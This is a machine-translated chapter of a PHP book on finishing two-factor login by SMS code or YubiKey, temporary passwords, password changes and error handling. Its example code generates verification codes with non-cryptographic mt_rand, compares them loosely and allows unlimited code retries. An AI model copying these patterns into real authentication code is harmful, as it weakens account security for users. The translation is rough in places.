文件`loginverify.php`没有请求方法，因为它只能从`login.php`调用。处理从`MyPage::action_start`方法开始，它在[清单 6-29](#list29) 中，以及`MyPage`类的实例化。(我前面已经说明了`MyPage::action_start2`的方法和部分；让我们来到这里的`Page::transfer`调用在[清单 6-26](#list26) 中。)

***[清单 6-29](#_list29)*** 。`loginverify.php` 中`MyPage`类的开始

```php
class MyPage extends Page {

protected function action_start() {
    echo <<<EOT
    <script>
    browser_signature('loginverify.php',
      {'action_start2': '1'});
    </script>
EOT;
}

protected function action_start2() {
    $_SESSION['browser'] = $_POST['browser'];
    log($_SESSION['browser']);
    $security = new Security();
    if ($security->
      check_verification($_SESSION['userid_pending']))
        $this->is_verified();
    else
        $this->show_form_sendcode();
}

...

}

$page = new MyPage('Login');
$page->go(true);
```

如果处理进行到这一步，那么用户 ID 和密码是正确的，所以`login.php`已经开始了一个会话，这就是为什么`MyPage`的实例化省略了第二个参数。然而，那个会话还没有(或者可能永远不会)代表一个登录的用户，所以`Page::go`的参数告诉它检查`$_SESSION['userid_pending']`，不要仅仅因为`$_SESSION['userid']`没有被设置就产生“没有登录”的错误。换句话说，如果用户仅完成了 2FA 阶段 1，他或她就可以继续。

现在，看`MyPage::action_start2`。我之前展示了第一行；它将浏览器签名放在`$_SESSION`数组中，这样`Security`类就可以访问它。然后它调用`Security::check_verification`从 cookie 中检查验证令牌；好的话 2FA 期可以跳过。(回想一下，cookie 将在 30 天后过期。)在这种情况下，处理继续进行`MyPage::is_verified`。

```php
protected function is_verified() {
    if (isset($_SESSION['expired']))
        $this->transfer('chgpassword.php');
    else {
        $this->login_phase2();
        $this->transfer('member.php');
    }
}
```

如果密码已过期，用户前往`chgpassword.php`更改密码。否则，2FA 阶段 2 完成，用户转到第一个应用程序页面`member.php`。

没有多少关系。

```php
protected function login_phase2() {
    $_SESSION['userid'] = $_SESSION['userid_pending'];
    unset($_SESSION['userid_pending']);
}
```

如果验证令牌检查失败，`MyPage::show_form_sendcode`将执行完整的 2FA 阶段 2 的剩余部分，如下一节所示。

发送认证码

我的 2FA 阶段 2 的实现通过 SMS(文本消息)或语音向用户的手机发送随机生成的六位数代码。有一堆 web 服务可以处理这其中的通信部分；如前所述，我选择 Twilio ( `twilio.com`)是因为它们易于使用，并且提供了大量的示例，包括我所需要的函数。

我在这里根本不打算讨论 Twilio API。我要说的是，我把我需要的东西封装到了一个函数中。

```php
SendCode($to_number, $code, $want_sms, &$error)
```

`$to_number`是要呼叫的号码，`$code`是六位数代码(该函数将其嵌入到适当的口头消息中)，`$want_sms`是短信的`true`和语音的`false`，`$error`是返回错误，在这种情况下该函数返回`false`。如果成功，它返回`true`。

有了`SendCode`做这项艰苦的工作，给用户一个按钮点击发送代码(`MyPage::show_form_sendcode`)然后发送代码(`MyPage::action_sendcode`)的工作就很简单了，如[清单 6-30](#list30) 所示。它甚至不是一个表单——只是一些说明和一个按钮，如图[图 6-17](#Fig17) 所示。

***[清单 6-30](#_list30)*** 。`MyPage::show_form_sendcode`和`MyPage::action_sendcode`方法和

```php
protected function show_form_sendcode() {
    echo <<<EOT
    <p>Click the button to receive your verification code
    <br>by phone so your login can be completed.
    <p>
EOT;
    $this->button('Send Code', array('action_sendcode' => '1'),
      'loginverify.php');
    echo '<p>';
}

protected function action_sendcode() {
    $stmt = $this->db->query('select phone, phone_method from
      user where userid = :userid',
      array('userid' => $_SESSION['userid_pending']));
    if ($row = $stmt->fetch()) {
        $_SESSION['verification_code'] = mt_rand(100000, 999999);
        $error = null;
        if (SendCode($row['phone'],
          $_SESSION['verification_code'],
          $row['phone_method'] == 'sms', $error))
            $this->show_form_checkcode();
        else
            $this->message($error);
    }
    else
        $this->message('Failed to retrieve user data');
}

```


[图 6-17](#_Fig17) 。发送代码的表单

检查验证码并完成 2FA 阶段 2

发送代码后，调用`MyPage::show_form_checkcode`显示一个表单，用户可以在其中输入他或她收到的代码。代码在[清单 6-31](#list31) 中，表单本身出现在[图 6-18](#Fig18) 中。

***[清单 6-31](#_list31)*** 。`MyPage::show_form_checkcode`方法

```php
protected function show_form_checkcode() {
    echo <<<EOT
<p>
The phone you specified for verification has been called.
<br>
Please enter the 6-digit code you receive below.
<p>
EOT;
    $f = new Form();
    $f->start();
    $f->text('code', 'Verification Code:', 20, '6-digit code');
    $f->button('action_checkcode', 'Verify', false);
    $f->end();
 }

```


[图 6-18](#_Fig18) 。表单输入代码

点击验证按钮进入`MyPage::action_checkcode`，如清单 6-32 中的[所示。如果提交的代码与发送的代码相同，并且密码没有过期，则调用`Security::store_verification`来设置验证令牌 cookie，因此在 30 天内不需要完整的 2FA 阶段 2。如果密码过期(但不是额外的时间)，2FA 阶段 2 仍然是完整的，所以我已经展示的`MyPage::is_verified`被调用。如果代码错误，表单会再次显示，同时会显示一条消息。没有代码，用户无法登录；没有旁路。(谷歌和其他网站有一个紧急代码列表，如果一个人的手机丢失或被盗，可以使用这些代码，但我还没有实现这个功能。)](#list32)

***[清单 6-32](#_list32)*** 。MyPage::action_checkcode 方法

```php
protected function action_checkcode() {
    if (isset($_SESSION['verification_code']) &&
      ($_POST['code'] == $_SESSION['verification_code'])) {
        unset($_SESSION['verification_code']);
        if (!isset($_SESSION['expired'])) {
            $security = new Security();
            $security->store_verification(
              $_SESSION['userid_pending'], true);
        }
        $this->is_verified();
    }
    else {
        $this->show_form_checkcode();
        $this->message('Invalid code');
    }
}
```

临时密码

当用户点击登录表单上的【忘记】按钮时([图 6-15](#Fig15) )，调用`login.php`中的`MyPage::action_forgot`。由于只存储加盐哈希，密码无法恢复；任何可以做到这一点的系统都是可疑的，因为它必须存储实际的密码。取而代之的是，一个临时密码被发送到用户注册的电子邮件地址(只有一个)，有效期只有 30 分钟，正如我在清单 6-18 中的[方法中展示的那样。由于密码已过期(30 分钟是额外时间)，当您输入临时密码时，将发生完整的 2FA 第 2 阶段。电子邮件不太安全，往往会在各种设备上被多次检索，并且通常会在电子邮件客户端保存几天甚至更长时间，因此 2FA 非常重要。很难想出任何安全的方法来提供只有 1FA 的临时密码。](#list18)

临时密码机制是这样工作的:首先，提示用户输入他或她注册的电子邮件地址，如图[图 6-19](#Fig19) 所示；写那个表格的代码在[清单 6-33](#list33) 中。


[图 6-19](#_Fig19) 。发送临时密码给的表格

***[清单 6-33](#_list33)*** 。`MyPage::action_forgot`方法

```php
protected function action_forgot() {
    $this->hide_request();
    echo <<<EOT
    <p>
    Your user ID and a temporary password will be sent
    <br>
    to the email you provided when you registered.
EOT;
    $f = new Form();
    $f->start();
    $f->text('email', 'Email:', 100, ' user@domain.com ');
    $f->button('action_send', 'Send Email');
    $f->end();
}
```

接下来，[清单 6-34](#list34) 中的`MyPage::action_send`，通过检查电子邮件地址的格式是否正确(`filter_var`是一个 PHP 函数)以及它是否与数据库中的用户电子邮件相匹配来验证电子邮件地址。不能确定匹配的用户是否是正确的用户，因此电子邮件可能会发送给错误的用户。正如我将要展示的，电子邮件消息应该告诉接收者，如果他或她没有请求更改，他或她应该联系系统管理员。方法`MyPage::set_temp_password`创建并设置临时密码。它是 6 个字节，由 12 个字符表示。

***[清单 6-34](#_list34)*** 。`MyPage::action_send`和`MyPage::set_temp_password`方法

```php
protected function action_send() {
    $this->hide_request();
    if (!filter_var($_POST['email'], FILTER_VALIDATE_EMAIL))
        $this->message('Invalid or missing email');
    else {
        $stmt = $this->db->query('select userid from user
          where email = :email',
          array('email' => $_POST['email']));
        if ($row = $stmt->fetch()) {
            $tmp = $this->set_temp_password($row['userid']);
            if (is_null($tmp))
                $this->message('Unable to generate password');
            else if ($this->send_email($row['userid'], $tmp))
                return;
            else
                $this->message('Unable to send mail');
        }
        else
            $this->message('Email address not found');
    }
    $this->action_forgot();
}

private function set_temp_password($userid) {
    $tmp = bin2hex(openssl_random_pseudo_bytes(6));
    $security = new Security();
    if ($security->set_password($userid, $tmp, true))
        return $tmp;
    return null;
}
```

(对`MyPage::action_send`顶部的`Page::hide_request`的调用隐藏了请求`div`，因为它没有被使用。)

如果攻击者窃取了用户的手机(将在 2FA 阶段 2 中使用)，他或她可能会单击忘记按钮，然后尝试猜测临时密码。12 个字符的密码平均需要 500 万亿次猜测。因为在`MyPage::pre_action_login` ( [清单 6-26](#list26) )中有两秒钟的延迟，当临时密码超时时，这将需要大约 5000 万年，比 30 分钟稍长。对我来说足够安全了。

`MyPage::action_send`调用清单 6-35 中的[中的`MyPage::send_email`，用临时密码发送实际的电子邮件。在开发系统上使用电子邮件通常很麻烦，在调试过程中使用实际的电子邮件也很麻烦，所以如果主机是`localhost`，电子邮件就显示在屏幕上。显然，一个真正的系统不应该这样做，因为关键是密码只进入用户的真实电子邮件地址。但是对于测试来说，它非常方便。如果你好奇的话，图 6-20](#list35) 和 [6-21](#Fig21) 显示了伪造和真实的电子邮件。

***[清单 6-35](#_list35)*** 。`MyPage::send_email`方法

```php
protected function send_email($userid, $tmp) {
    $subject = 'Your temporary password';
    $msg = "Your User ID is $userid " .
      "and your temporary password is '$tmp'. " .
      "(If you did not request this, please contact the " .
      "system administrator.)";
    if ($_SERVER['HTTP_HOST'] == 'localhost')
        echo <<<EOT
        <p>
        <div style='border:2px solid;padding:10px;width:500px'>
        <p>(localhost -- not sent)
        <p>Subject: $subject
        <p>Msg: $msg
        </div>
EOT;
    else if (!mail($_POST['email'], $subject, $msg))
        return;
    echo <<<EOT
<p>
Your temporary email has been sent. When you receive it,
<br>
use it to login. You'll then be prompted to choose a new password.
<p>
EOT;
    $this->button('Login', null, 'login.php');
    return true;
}

```


[图 6-20](#_Fig20) 。仅在本地主机页面上显示的电子邮件


[图 6-21](#_Fig21) 。发送给真实用户的真实电子邮件

通过电子邮件发送临时密码的一个潜在问题是，如果手机被盗，攻击者可以进入电子邮件应用程序，也许因为手机的所有者已经输入了锁屏代码，他或她可以获得临时密码并通过 2FA 第二阶段。有两种解决方案。

*   使用无法从手机中检索到的电子邮件地址注册。
*   请使用 YubiKey 或类似设备。他们不够聪明，无法接收电子邮件。

更改密码

如前所述，如果密码过期，被调用来完成 2FA 阶段 2 的`MyPage::is_verified,`会转移到`chgpassword.php`，迫使用户更改密码。或者，用户可以随时从出现在每个页面的菜单栏上的帐户菜单中更改他或她的密码。唯一的区别是，在前一种情况下，有一个给用户的说明，解释他或她为什么被带到更改密码屏幕([图 6-22](#Fig22) )。除了这个小细节，[清单 6-36](#list36) 中显示的`chgpassword.php`与您之前看到的是一样的:`MyPage::request`输出如图[图 6-22](#Fig22) 所示的表单，`MyPage::action_set`对其进行处理。回想一下`Security::set_password`会终止验证令牌，因此第一次使用新密码时，需要完整的 2FA。(我在前面的[清单 6-16](#list16) 中展示了表单代码，当时我在“密码强度反馈”一节中解释了`Form::password_strength`是如何工作的)


[图 6-22](#_Fig22) 。更改密码表单

***[清单 6-36](#_list36)*** 。`chgpassword.php`文件

```php
class MyPage extends Page {

protected function request() {
    $userid = $this->userid(true);
    if (isset($_SESSION['expired']))
        echo '<p>Your password has expired.';
    $f = new Form();
    $f->start();
    $f->text('pw-old', 'Existing Password:',
      50, 'Existing Password', true, true);
    $f->text('pw-new1', 'New Password:',
      50, 'New Password', true, true);
    $f->password_strength('pw-new1', $userid);
    $f->text('pw-new2', 'Repeat:',
      50, 'New Password', true, true);
    $f->button('action_set', 'Set');
    $f->end();
}

protected function action_set() {
    $userid = $this->userid(true);
    $security = new Security();
    if ($security->check_password($userid, $_POST['pw-old'],
      $expired)) {
        if ($_POST['pw-new1'] == $_POST['pw-new2']) {
            if ($_POST['pw-new1'] == $_POST['pw-old'])
                $this->message('New password must be different');
            else {
                $this->hide_request();
                $security->set_password($userid,
                  $_POST['pw-new1']);
                unset($_SESSION['expired']);
                $this->message('Password was changed', true);
                $this->button('Login', null, 'login.php');
            }
        }
        else
            $this->message('New and repeated passwords do
              not match');
    }
    else
        $this->message('Invalid existing password');
}

}

$page = new MyPage('Change Password');
$page->go(true);
```

在`MyPage::request`方法开始时对 `Page::userid`的调用检索在`$_SESSION`数组中设置的用户 ID。`true`的自变量意味着要么需要完全登录的用户 ID，要么需要待定的用户 ID (2FA 仍在进行中);参数`false`只检索完全登录的用户 ID。没什么大不了的。

```php
protected function userid($pendingOK = false) {
    $userid = empty($_SESSION['userid']) ? null :
      $_SESSION['userid'];
    if (is_null($userid) && $pendingOK)
        $userid = empty($_SESSION['userid_pending']) ? null :
          $_SESSION['userid_pending'];
    return $userid;
}
```

使用 YubiKey 进行 2FA 第 2 阶段

我不会再通过`loginverify.php`来展示如何修改它来支持 YubiKey。我将在这里展示代码更改，然后您可以很容易地将它们应用到您自己的代码中。(它们包含在本书的源代码/下载区`www.apress.com`。)

一个 YubiKey 看起来有点像 u 盘，但是它上面有一个按钮，正如你在[图 6-23](#Fig23) 中看到的。


[图 6-23](#_Fig23) 。YubiKey

YubiKeys 的价格约为 25 美元，大量购买有折扣。每个 YubiKey 都有一个独特的嵌入式公共标识符，每次您按住按钮时，它都会生成一个独特的 32 个字符的一次性密码(OTP ),并与标识符一起发送。您将标识符存储在`user`表中，例如，在一个`identifier`字段中。然后，当您希望用户提供一个 OTP 时，您提供一个带有字段的表单，用户单击该字段使其获得焦点，然后按住按钮。聪明的是，YubiKey 的行为就像一个 USB 键盘，所以标识符/OTP 进入了这个领域。您将标识符/OTP 发送给 YubiKey 的验证服务，如果他们检查通过，则 OTP 是好的。由于 YubiKey 的物理构造方式以及密码是用与标识符关联的 128 位 AES 密钥加密的，黑客无法对 YubiKey 进行反向工程或伪造 OTP。

还有其他硬件设备产生的代码必须输入。手头有了我的 YubiKey 示例代码，您应该能够很容易地弄清楚如何将其中一个集成到您的应用程序中。

设置 YubiKey 标识符

在您的 PHP 代码中，您必须在用户注册时获取标识符，正如您必须获取电话号码一样，如果您打算使用语音/SMS 方法发送代码，正如我在前两节中所展示的那样。很简单:只需将该字段添加到注册或更改密码表单中。您告诉用户将输入光标放在那里并按住按钮，然后捕获标识符。此时，您并不关心 OTP 本身。

例如，回头看看清单 6-34 中的修改密码表单，你可以为 YubiKey 输入添加一个字段:

```php
$f->text('yubikey', 'YubiKey:', 50, '', true, true);
```

那么可以将`MyPage::action_set method`改为调用`MyPage::set_yubikey`来记录用户的标识:

```php
...
else {
    if (!$this->set_yubikey())
        return;
    $this->hide_request();
    $security->set_password($userid,
      $_POST['pw-new1']);
    ...
```

`MyPage::set_yubikey`见[清单 6-37](#list37) 。

***[清单 6-37](#_list37)*** 。`MyPage::set_yubikey`

```php
protected function set_yubikey() {
    if (empty($_SESSION['userid'])) {
        $this->message('No User ID');
        return false;
    }
    $y = $_POST['yubikey'];
    if (strlen($y) < 34) {
        $this->message('Invalid YubiKey OTP');
        return false;
    }
    $identity = substr($y, 0, strlen($y) - 32);
    $this->db->update('user', 'userid',
      array('identity'), array('userid' => $_SESSION['userid'],
      'identity' => $identity));
    return true;
}
```

注意，这段代码没有使用 YubiKey 库的任何部分，也没有对加密的 OTP 做任何事情。它想要的只是标识符。

验证 YubiKey OTP

下面是如何修改`loginverify.php` ( [清单 6-27](#list27) 到 [6-30](#list30) )来使用 YubiKey，而不是向用户的手机发送代码。您不需要两个表单，一个用于触发代码的发送，一个用于用户输入代码，而只需要一个表单来接收 YubiKey 标识符/OTP。本质上，你用`MyPage::show_form_yubikey`替换了方法`MyPage::show_form_sendcode` ( [清单 6-28](#list28) )。[清单 6-38](#list38) 显示了该方法及其动作`MyPage::action_yubikey`。

***[清单 6-38](#_list38)*** 。`MyPage:: show_form_yubikey`和`MyPage::action_yubikey`方法

```php
protected function show_form_yubikey() {
    echo <<<EOT
<p>
Position the input cursor in the field and
touch the Yubikey button for one second.
<br>
Then click the Verify button.
<p>
EOT;
    $f = new Form();
    $f->start();
    $f->text('yubikey', 'YubiKey:', 50, '', true, true);
    $f->button('action_yubikey', 'Verify', false);
    $f->end();
}

protected function action_yubikey() {
    $y = $_POST['yubikey'];
    if (strlen($y) > 34) {
        $identity = substr($y, 0, strlen($y) - 32);
        $stmt = $this->db->query('select identity from
          user where userid = :userid',
          array('userid' => $_SESSION['userid_pending']));
        if (($row = $stmt->fetch()) &&
          $row['identity'] == $identity) {
            $yubi = new \Auth_Yubico(CLIENT_ID, CLIENT_KEY);
            if ( $yubi->verify($y) === true) {
                if (!isset($_SESSION['expired'])) {
                    $security = new Security();
                    $security->store_verification(
                      $_SESSION['userid_pending'], true);
                }
                $this->is_verified();
                return;
            }
        }
    }
    $this->show_form_yubikey();
    $this->message('Invalid YubiKey OTP');
}
```

仅有的两行使用 YubiKey API 的代码以粗体显示。您需要一个客户端 ID 和密钥来使用 API，您可以从 YubiKey 网站获得。那么验证一个 YubiKey OTP 就很简单了。如果检查通过，剩下的代码与 SMS/voice 的情况相同:设置了一个验证令牌，因此后续的 2FA 阶段 2 验证可以跳过 30 天，然后调用`MyPage::is_verified`。如果 YubiKey 验证失败，表单会再次显示，用户可以继续尝试。

比较短信/语音和 YubiKey

YubiKey 验证对用户来说更容易，因为不需要输入任何东西，而且，从示例代码中可以看出，更容易实现。它可能更安全，因为语音和短信网络很复杂，涉及硬件、软件和人员，任何复杂的东西都容易受到攻击。YubiKey 或其他等效的硬件设备要简单得多，几乎不可能被破解。

此外，正如密斯·凡·德罗所说，“少即是多。”YubiKey 不是袖珍电脑，不能用来查看电子邮件，所以被盗的 yubi key 不会让攻击者利用临时密码机制闯入。

然而，YubiKey 或其他类似设备有两个缺点。

*   这是要花钱的(但至少可以用于几个应用)。
*   不是每台电脑都有 USB 端口。手机、平板，有时候酒店、机场的公用电脑都没有。

如果您不能决定哪种方法更好，那么您没有理由不能同时实现这两种方法，并给用户一个选择。2FA 还有其他方法，比如 Google Authenticator 应用程序，我让你自己去看看。

错误处理

我们几乎已经完成了安全性和密码的设置，除了新用户注册页面，我马上就要谈到这个页面了。现在是讨论错误处理的时候了。

错误信息可用性

每个计算机用户都知道，错误信息的问题在于它告诉我们什么是错的。用户想要的是被告知该做些什么。

我几乎不需要一个例子，但这里有一个:假设 Butterfly Club 的 office assistant 试图删除一个或多个成员引用的专业，当然带有外键约束。数据库将显示消息“无法删除或更新父行:外键约束失败。”当然，数据库设计师会说。但是办公室助理究竟应该如何理解这条信息呢？他或她需要的更像是“只要会员拥有，就不能删除那个专业。”或者，甚至更好的是，提供一些选项的屏幕，例如取消删除专业，将引用它的成员更改为另一个专业(或者不更改)，或者删除引用成员(这可能走得太远了，除非董事会决定将燕尾爱好者踢出俱乐部)。无论如何，关键是任何针对用户的消息都需要用与用户理解的应用程序模型相关的术语来表达，而应用程序的内部几乎从来没有达到适当的水平。

因此，错误处理意味着

*   捕捉所有的错误。异常在这方面很有帮助。
*   记录错误，以便系统管理员可以查看它们。
*   为了安全起见，对用户隐藏一些错误。
*   将错误消息从实现模型转换到用户模型。

我逐一处理这四点。出于篇幅的考虑，我排除了错误处理的第五个方面，即定位错误消息。

捕捉错误

有四种错误。

1.  您在代码中检测到的错误，例如在数据库中找不到的电子邮件地址。
2.  数据库错误，比如我刚刚展示的那个。因为我喜欢使用存储过程来验证更新，所以许多数据错误也像数据库错误一样。
3.  PHP 错误。
4.  第三方库返回的未知来源的错误，例如 Twilio API 返回的错误。(我说“来源不明”是因为这些可能是前一种类型的病例。)

显然，您在代码中检测到的错误会被捕获；毕竟，你发现了他们。正如我在第五章的[中指出的，如果你使用带有`PDO::ERRMODE_EXCEPTION`属性的 PDO，数据库错误都会被捕获。使用 PHP 机制捕获的 PHP 错误，我将对此进行解释。从第三方库中捕捉错误需要彻底阅读文档并非常仔细地编写代码，因为库以与库一样多的不同方式返回错误，甚至在库中不一致也是常见的。](5.html)

您通常不需要做任何事情来捕捉 PHP 错误，因为您在`php.ini`配置文件中设置的一个选项会导致它们被写入 PHP 错误日志。

```php
log_errors = On
```

如果您不能或不想修改`php.ini`，您可以在运行时用

```php
ini_set('log_errors', 1);
```

找到日志最简单的方法是查看`phpinfo`函数的输出(显示如何调用它的例子在[清单 3-1](#list1) 中)，其中一部分在[图 6-24](#Fig24) 中。


[图 6-24](#_Fig24) 。PHP 错误日志的位置

这个日志在文档根目录下，这意味着任何人都可以通过 URL `basepath.com/log/error.log`访问它。您应该将它放在文档根目录之外，这可以通过在`php.ini`中设置它的路径来实现，或者将这些行添加到 Apache 处理的`.htaccess file`中。

```php
<Files *.log>
    Deny From All
</Files>
```

您可以编写一个 PHP 程序来显示日志，当然要适当地防止未经授权的访问，或者从终端读取日志。在开发过程中特别方便的一项技术是使用*nix `tail`命令，该命令显示日志的结尾，然后继续显示新添加的内容(我输入的内容以粗体显示)。

```php
$ tail -f /home/rochkind/public_html/log/error.log
[12-Jun-2013 11:27:27] PHP Notice:  Undefined variable: warg in /home/rochkind/public_html/Photography/ph_common.php on line 393
[12-Jun-2013 13:16:50] PHP Notice:  Undefined variable: xxx in /home/rochkind/public_html/phpinfo.php on line 3
[12-Jun-2013 13:16:54] PHP Notice:  Undefined index: HTTP_REFERER in /home/rochkind/public_html/phpinfo.php on line 8
[12-Jun-2013 13:30:45] PHP Notice:  Undefined variable: error in /home/rochkind/public_html/ClassicCameras/login.php on line 67
[12-Jun-2013 13:30:47] PHP Notice:  Undefined offset: 9 in /home/rochkind/public_html/prcspymnt/regcode.php on line 15
[12-Jun-2013 13:30:47] PHP Notice:  Undefined offset: 11 in /home/rochkind/public_html/prcspymnt/regcode.php on line 15
[12-Jun-2013 13:33:09] PHP Notice:  Undefined variable: _SESSION in /home/rochkind/public_html/et.php on line 2
[12-Jun-2013 13:33:09] PHP Warning:  Invalid argument supplied for foreach() in /home/rochkind/public_html/et.php on line 3
```

您还应该记录您在应用程序中发现的除 PHP 错误之外的任何错误(下一节)。然后，要么用`Page::message`立即显示一条消息，要么抛出一个异常。早在[清单 5-24](#list24) 中，在`Page::go`中，我展示了出现在每一页上的代码，它显示了消息`div`中的异常。

```php
catch (\Exception $e) {
    $this->message($e->getMessage());
}
```

记录错误

正如我解释的那样，PHP 错误是自动记录的，但是您可能还想记录其他错误(您检测到的错误、数据库错误或第三方错误)。这是用一个简单的`Error`类中的`log`方法完成的，如[清单 6-39](#list39) 所示。(在那个类中我没有其他的东西，但是你可能想在某个时候给它添加各种错误相关的方法。)还有一个方便的函数，可以省去实例化该类的麻烦。

***[清单 6-39](#_list39)*** 。`Error`阶级

```php
class Error {

function log($s) {
    if (is_array($s))
        error_log(print_r($s, true));
    else {
        if (is_a($s, 'Exception'))
            $s = $s->getMessage();
        error_log($s);
    }
}

}

function log($s) {
    static $error;

    if (is_null($error))
        $error = new Error();
    $error->log($s);
}
```

这些函数接受一个字符串、一个异常或一个数组(便于调试)。

您不局限于只记录错误。您还可以记录不成功的登录尝试、运行报告的请求或您想要跟踪的任何其他内容。

您可能希望将日志保存在数据库中，但是如果错误与数据库相关，您可能无法访问数据库，所以这不是一个好主意。(这让我想起了大约 40 年前在贝尔实验室的一次会议，当时 UNIX 的共同创始人肯·汤普森(Ken Thompson)被问及为什么不在磁盘上记录错误。一贯亲切而简洁的 Thompson 回答道，“你的意思是在磁盘上记录磁盘错误？”)

隐藏错误

试图闯入您的应用程序的攻击者可能会从查看 PHP 错误中获得一些好处，因此在您的生产服务器上，您应该在`php.ini`中禁止在 web 页面上显示错误。

```php
display_errors = Off
display_startup_errors = Off
```

在您的开发服务器上，您希望两者都设置为`On`，这样当您以每小时几十个的速度生成错误时，您就不必参考日志。他们会去屏幕那里。

翻译错误

将您知道的错误翻译成用户能够理解的术语已经够难的了，但是您还必须翻译以前从未见过的数据库错误和没有记录的第三方库错误。你最多能做的就是

*   处理所有已知的数据库约束错误。
*   记录这个低级错误，这样当用户联系您寻求技术支持时，您就有了它。
*   为其他所有事情发布通用消息，比如“错误呼叫电话号码”。请再试一次。”再试一次是痴心妄想，但谁知道呢？

数据库约束错误分为三类:违反唯一约束的错误，违反参照完整性(外键)的错误，以及由存储过程中的`signal`语句显式生成的错误。对于后者，你可能想回顾一下第四章中的“MySQL 触发器的约束”一节。

要想知道你面对的是什么，请查看[图 6-25](#Fig25) ，在这里我试图删除一个成员提到的的蝴蝶专业。可怜的用户应该得到更好的东西。


[图 6-25](#_Fig25) 。违反参照完整性

为了提供一个集中的地方来翻译错误，我已经修改了显示异常的`Page::go`中的代码，将异常传递给`Page::translate_error`，默认情况下它只返回消息。

```php
...
catch (\Exception $e) {
    $this->message($this->translate_error($e));
}
...

protected function translate_error($e) {
    return $e->getMessage();
}
```

然后应用程序可以覆盖`Page::translate_error`来尝试改进消息。

查看图 6-25 中的[消息，可以挑出 SQLSTATE 号(23000)、MySQL 错误代码(1452)，以及消息文本中违反的约束(`specialty_id`)的名称。这不是我明确指定的名称，因为外键约束是由 MySQL Workbench 自动处理的。然而，如果你用那个工具检查约束，你可以看到它，如图](#Fig25)[图 6-26](#Fig26) 所示。


[图 6-26](#_Fig26) 。成员表的结构，显示 specialty_id 约束

这建议了一种处理数据库错误的方法:打开 SQLSTATE，然后使用一个正则表达式来匹配“外键约束”(还有其他种类的约束)并提取约束名，如清单 6-40 所示。如果不匹配，则返回原始消息。我使用了`switch`语句，以防有更多的 SQLSTATEs 需要处理(很快就会有)或者更多的约束名。

***[清单 6-40](#_list40)*** 。MyPage::translate_error 方法

```php
protected function translate_error($e) {
    if (is_a($e, 'PDOException')) {
        switch ($e->getCode()) {
        case '23000':
            if (preg_match(
              "/foreign key constraint.*CONSTRAINT `([^`]*)`/",
              $e->getMessage(), $m)) {
                switch ($m[1]) {
                case 'specialty_id':
                    return "Can't delete specialty because ".
                      "a member is still referencing it.";
                }
            }
        }
    }
    return $e->getMessage();
}
```

现在消息好多了，如图[图 6-27](#Fig27) 所示。


[图 6-27](#_Fig27) 。改进的参照完整性消息

用于注册新用户的`account.php`文件会产生更多的约束错误。回头看看[清单 6-17](#list17) ，您可以看到插入和更新触发器使用的存储过程会从`signal`语句中产生五种不同的错误。此外，在三列上还有唯一的约束，一如既往，加上主键，如图[图 6-28](#Fig28) 所示。



[图 6-28](#_Fig28) 。用户表的结构，显示唯一的约束

[清单 6-41](#list41) 显示了`account.php`文件的`MyPage::translate_error`方法。(整个文件在`www.apress.com`本书的源代码/下载区。)为了帮助您理解正则表达式，CK001 错误(来自触发器过程中的`signal`语句)如下所示(添加了换行符):

```php
SQLSTATE[CK001]: <<Unknown error>>: 1644
Email is missing or invalid.@email
```

而唯一约束错误 s 看起来像:

```php
SQLSTATE[23000]: Integrity constraint violation: 1062
Duplicate entry ' smith@noplace.com ' for key 'email_UNIQUE'
```

***[清单 6-41](#_list41)*** 。`MyPage::translate_error`方法

```php
protected function translate_error($e) {
    if (is_a($e, 'PDOException')) {
        switch ($e->getCode()) {
        case '23000':
            if (preg_match("/for key '(.*)'/",
              $e->getMessage(), $m)) {
                $indexes = array(
                  'PRIMARY' =>
                    array ('User ID is already taken', 'userid'),
                  'userid_UNIQUE' =>
                    array ('User ID is already taken', 'userid'),
                  'email_UNIQUE' =>
                    array ('Email is already taken', 'email'),
                  'phone_UNIQUE' =>
                    array ('Phone is already taken', 'phone'));
                if (isset($indexes[$m[1]])) {
                    $this->err_flds =
                      array($indexes[$m[1]][1] => 1);
                    return $indexes[$m[1]][0];
                }
            }
        break;
        case 'CK001':
            if (preg_match('/: 1644 (.*)@(.*)$/',
              $e->getMessage(), $m)) {
                $this->err_flds = array($m[2] => 1);
                return $m[1];
            }
        }
    }
    return $e->getMessage();
}
```

回想一下清单 6-17 中的[，由`signal`语句发送的消息在一个`@`分隔符后包含了字段名。这里，正则表达式提取字段名并在`err_flds`表中设置一个条目，这样表单就可以突出显示该字段。该字段也是为唯一约束消息设置的，其中一个消息可以在图 6-29](#list17) 中看到。


[图 6-29](#_Fig29) 。突出显示字段的唯一约束错误

鉴于关系数据库是所有计算机系统中最结构化的，包括模式、表、列、行、索引和类型，具有讽刺意味的是，人们必须针对文本错误消息进行模式匹配，以提取违反约束的细节。我的一年级老师会称之为“需要改进的地方”。

章节总结

*   如果服务器和用户的电脑都不安全，那么其他任何东西都不安全。
*   密码需要是强有力的，并且经过加盐和散列处理。
*   如果安全性很重要，应该使用双因素身份验证。
*   您可以轻松地保护您的应用程序免受 SQL 注入、跨站点脚本、跨站点请求伪造和点击劫持的攻击，但无法抵御反向 CSS。
*   一个包含每个字段类型的方法的`Form`类提供了安全性和编码便利性。
*   一个`Security`类实现了底层的安全机制。
*   实施双因素身份认证非常简单，既可以通过短信/语音发送代码，也可以使用 YubiKey 等设备。
*   错误消息通常会告诉用户哪里出了问题，但是用户想知道该怎么做。`